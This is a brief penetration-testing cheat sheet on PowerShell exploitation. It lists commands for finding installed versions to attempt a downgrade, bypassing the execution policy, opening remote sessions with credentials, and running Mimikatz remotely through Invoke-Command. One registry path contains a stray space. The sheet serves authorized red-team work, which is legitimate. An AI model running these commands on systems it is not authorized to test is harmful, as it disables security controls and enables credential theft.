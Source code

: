 # Exploitation with PowerShell

**Description:** Various commands related to PowerShell usage during penetration tests or red team engagements.

### Enumerate Installed Versions

**Information:** This can be helpful when determining if a PowerShell downgrade attack will work. \
`(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngin e -Name PowerShellVersion).PowerShellVersion`

If PowerShell 2.0 is installed then we can bypass multiple security protections enabled in more recent PowerShell Version 5 releases: \
`powershell.exe -Version 2`

### Bypassing Execution Policy
**Information:** Execution policies can be disabled in multiple ways. It is not a sufficient security protection to prevent unsigned scripts from being loaded. \
`powershell.exe -exec bypass` \
`Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process`

### Creating a PowerShell Session
**Information:** We can establish a persistent connection in PowerShell using Enter-PSSession. This can make life significantly easier and reduce overhead. \
`New-PSSession -ComputerName [IP] -Credential [USER]` \
`Enter-PSSession -Session #`

### Executing Scripts Remotely
**Information:** We can execute scripts remotely with PowerShell. \
`Invoke-Command -Session # -FilePath C:\Users\Parzival\Desktop\Mimikatz.exe`
